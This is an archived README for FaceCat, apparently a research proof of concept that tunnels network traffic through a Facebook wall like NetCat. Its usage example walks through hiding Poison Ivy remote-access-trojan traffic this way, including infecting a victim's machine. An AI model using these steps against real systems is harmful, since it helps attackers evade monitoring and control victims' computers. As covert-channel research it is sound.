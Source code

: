 **ARCHIVED! This tool was developed years ago as a proof of concept and it has not been actively mantained, so it may not work with current Facebook platform. Anyway, it is kept public for educational purposes.**

FaceCat is cover channel Proof of Concept in Facebook. It is not actively maintained, so please note that it may require some HTML parsing changes. Any pull request with an update is more than welcome.
It works similar to the widely known tool NetCat, but 

```
 $ ./facecat.py
Usage: facecat.py [options]
Options:
-h, --help            show this help message and exit wall pipe account
-w WALL, --wall=WALL  wall pipe account 
-c HOST --host=HOST   connection host
-p PORT --port=PORT   listening or connection port
-v --verbose          verbose output
```

* Help: Just show the help

* Wall: Email of the master’s wall. It has to be previously configured in order to allow writing on it.

* Host: FaceCat can work by listening or connecting, as NetCat does. If you chose a host, connection mode is used. If not, listening mode is.

* Port: Port where FaceCat is listening for new connections, or port to connect to (Host:Port connection).

* Verbose: Shows each step of the process. Useful for educational purposes.

Example using Poison Ivy:
1. Create a Poison Ivy server that will try to connect to 127.0.0.1 at port 3460. We also start a Poison Ivy client listening at the same port.
2. Create and configure a FaceBook account in order to write on its wall, for instance `wall1@gmail.com`.
3. Run Internet Explorer and login in our newly created account.
4. Run FaceCat in order to read wall1@gmail.com’s wall and to relay to our local poison ivy’s client: 
```
$ facecat.py –v –m wall1@gmail.com –c 127.0.0.1 –p 3460
```
5. Copy (or infect) FaceCat and Poison Ivy’s server to the victim’s machine.
6. Run FaceCat in order to listen to port 3460 in the victim’s machine and to relay to `wall1@gmail.com`’s wall:
```
$ facecat.py –v –m wall1@gmail.com –p 3460
```
7. Run Poison Ivy’s client in the victim’s machine.
8. Use Poison Ivy normally, but through a FaceBook’s Covert Channel.

Demo: https://youtu.be/C_c8KNvVSVg

Full SANS Paper: https://www.sans.org/reading-room/whitepapers/engineering/covert-channels-social-networks-33960 
